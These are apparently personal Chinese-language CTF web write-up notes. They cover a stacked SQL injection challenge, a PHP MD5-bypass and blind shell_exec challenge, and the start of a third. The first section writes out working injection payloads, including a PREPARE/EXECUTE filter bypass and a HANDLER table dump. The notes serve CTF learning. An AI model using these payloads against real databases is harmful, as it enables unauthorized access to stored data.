 



## 62.随便注(强网杯版)



想用select 前输入以下select 猜到有过滤 输入后没有回显，应该是过滤了 那就是堆叠注入

1'; show databases;#![image-20241109225405274](D:\ctf wp\40.2.assets\image-20241109225405274.png)

再   1';show tables;#![image-20241109225529541](D:\ctf wp\40.2.assets\image-20241109225529541.png)

相信他在words里 1';show columns from words;#

![image-20241109225738395](D:\ctf wp\40.2.assets\image-20241109225738395.png)

防人之心不可无，再看看no_flag_here表  1'; show columns from no_flag_here;#![image-20241110134919297](D:\ctf wp\40.2.assets\image-20241110134919297.png)

找到flag   1';PREPARE hacker from concat('s','elect', ' * from `no_flag_here` ');EXECUTE hacker;#        (预编译的方式拼接select )

​            1'; handler no_flag_here open as a; handler a read next;#    (用handler命令进行查看，handler命令可以一行一行的显示数据表中的内容。)   handler代替select，以一行一行显示内容

open打开表
as更改表的别名为a
read next读取数据文件内的数据次数

![image-20241110140127058](D:\ctf wp\40.2.assets\image-20241110140127058.png)

## 63.Warm_up

![image-20241110182600441](D:\ctf wp\40.2.assets\image-20241110182600441.png)

审计代码  哈希加密 和rce注入 

### 难点在于shell_exec()无回显

md5用oe绕过 ![image-20241110183406764](D:\ctf wp\40.2.assets\image-20241110183406764.png)

绕过后 用>写入1.txt 再打开

看到flag 同样方式 写入cat命令后 再查看1.txt![image-20241110225506722](D:\ctf wp\40.2.assets\image-20241110225506722.png)

后续总结：在PHP中 ">" 是表示把什么写入什么文件的意思。

比如这道题目，既然无回显，那我就把它写进一个文件，然后访问这个文件不就可以了



## 64.Web 100 - The Way Out is Through

第一次国外题 这是第一题![image-20241110235119509](D:\ctf wp\40.2.assets\image-20241110235119509.png)

打开发现是加载出来了的 直接看源代码
